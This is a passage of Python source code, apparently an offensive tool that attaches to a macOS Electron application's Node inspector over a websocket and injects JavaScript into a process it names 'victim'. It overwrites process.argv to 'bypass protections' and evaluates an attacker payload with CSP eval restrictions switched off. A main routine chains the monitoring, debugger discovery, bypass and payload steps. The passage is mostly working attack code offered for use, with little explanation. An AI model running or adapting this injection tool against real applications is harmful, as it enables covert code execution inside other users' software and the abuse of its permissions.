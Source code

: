 ```python
        sleep(1)

        await send_cmd(ws, "Debugger.enable", {"maxScriptsCacheSize": 10000000})

        await send_cmd(ws, "Profiler.enable")

        await send_cmd(ws, "Debugger.setBlackboxPatterns", {"patterns": ["/node_modules/|/browser_components/"], "skipAnonnymous": False})

        await send_cmd(ws, "Runtime.runIfWaitingForDebugger")

        await send_cmd(ws, "Runtime.executionContextCreated", get_first=False, params={"context": {"id": CONTEXT_ID, "origin": "", "name": NAME, "uniqueId": UNIQUE_ID, "auxData": {"isDefault": True}}})

        code_to_inject = """process['argv'] = ['/Applications/victim.app/Contents/MacOS/victim']"""
        await send_cmd(ws, "Runtime.evaluate", get_first=False, params={"expression": code_to_inject, "uniqueContextId":UNIQUE_ID})
        print("Injected code to bypass protections")


async def js_payloads():
    global CONT, CONTEXT_ID, NAME, UNIQUE_ID

    print(f"Connecting to {INSPECT_URL} ...")

    async with websockets.connect(INSPECT_URL) as ws:
        data = await send_cmd(ws, "Runtime.enable", get_first=True)
        CONTEXT_ID = data["params"]["context"]["id"]
        NAME = data["params"]["context"]["name"]
        UNIQUE_ID = data["params"]["context"]["uniqueId"]
        await send_cmd(ws, "Runtime.compileScript", get_first=False, params={"expression":JS_PAYLOADS,"sourceURL":"","persistScript":False,"executionContextId":1})
        await send_cmd(ws, "Runtime.evaluate", get_first=False, params={"expression":JS_PAYLOADS,"objectGroup":"console","includeCommandLineAPI":True,"silent":False,"returnByValue":False,"generatePreview":True,"userGesture":False,"awaitPromise":False,"replMode":True,"allowUnsafeEvalBlockedByCSP":True,"uniqueContextId":UNIQUE_ID})



async def main():
    await monitor_victim()
    sleep(3)
    await get_debugger_url()
    await bypass_protections()

    sleep(7)

    await js_payloads()
    


async def send_cmd(ws, method, get_first=False, params={}):
    """
    Send a command to the inspector and read until we get a response with matching "id".
    """
    global CONT

    CONT += 1

    # Send the command
    await ws.send(json.dumps({"id": CONT, "method": method, "params": params}))
    sleep(0.4)
```